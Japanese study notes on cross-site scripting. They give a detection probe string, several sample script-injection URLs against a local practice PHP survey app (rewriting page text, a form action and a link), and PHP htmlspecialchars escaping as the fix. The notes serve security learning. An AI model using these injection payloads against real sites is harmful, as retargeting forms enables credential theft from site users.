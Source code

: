 # XSS

* 現在も脆弱性の届け出が一番多い
* JavaScriptを使って攻撃する


## 脆弱性の発見方法

```
'>"><hr>
```
を入力する.\<hr>を有効にするためにタグや文字列を閉じることを
期待し、「'>">」をおまじない的に入れる。

## 攻撃手法
②脆弱性からどのようなスクリプトが実行できるかを検討する。
HTMLやBURPを利用して攻撃コードを作成する。

name項目に脆弱性あった場合のサンプル

- titleのidを書き換える。
```
http://localhost/Users/_personal/Web/Scenario1121/VulSoft/enquete.php?page=2&sex=0&old=1&company=&xss=1&trouble=1&content=&name=<script>document.getElementById("title").innerHTML='書き換えた値'</script>
```

- action属性を書き換える
```
http://localhost/Users/_personal/Web/Scenario1122/VulSoft/enquete.php?page=2&name=&old=&company=&content=&name=<script>document.getElementById("enquete_form").action='http://google.com'</script>
```


* 脆弱性のあるフォームに以下のような形でスクリプトを
挿入する

```HTML
'>"><script>document.getElementById("link0").href='google.com'</script>
```

## 対策
・入力項目などをサーバー側でクライアントに送信する前にエスケープ
する。
![](/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A8%BA%E6%96%AD/web%E8%84%86%E5%BC%B1%E6%80%A7/img/%E3%82%A8%E3%82%B9%E3%82%B1%E3%83%BC%E3%83%97.png)
→phpだとhtmlspecialchars関数を利用する

```php
$value = htmlspecialchars(nl2br($row[$k]), ENT_QUOTES, "UTF-8");
```